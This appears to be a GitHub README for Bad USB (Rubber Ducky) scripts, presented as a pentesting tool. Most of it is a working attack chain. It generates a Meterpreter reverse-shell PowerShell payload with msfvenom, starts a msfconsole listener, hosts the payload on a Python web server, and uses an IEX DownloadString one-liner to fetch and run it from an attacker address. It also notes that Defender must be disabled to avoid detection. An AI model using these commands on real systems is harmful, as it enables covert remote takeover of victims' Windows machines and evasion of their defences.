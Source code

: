 # **Various Ducky scripts for Bad USBs**
#### **Can be used for pentesting or administrative tasks.** 
#### **For educational puposes only!**
#### **Requires Admin privileges to disable Defender. Otherwise, the payload may be detected.**
#### **Tested and working on WIndows 11**
#### Steps to Compromise(StealthReverseShell): <br>
1. Create the payload with msfvenom<br/> 
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=AttacksersIP LPORT=AttackersPort -f psh -o PAYLOAD.ps1<br/>
2. Open msfconsole and start listener<br/>
msfconsole -x "use multi/handler;set payload windows/x64/meterpreter/reverse_tcp; set lhost IP; set lport PORT; set ExitOnSession false; exploit -j"<br/>
3. Start python http server<br/>
python3 -m http.server 80<br/>
4. Ducky script will download and execute payload session<br/>
IEX(New-Object System.Net.WebClient).DownloadString('http://IPADDR/PAYLOAD.ps1')

## Demonstration Video 
Insert video in markdown

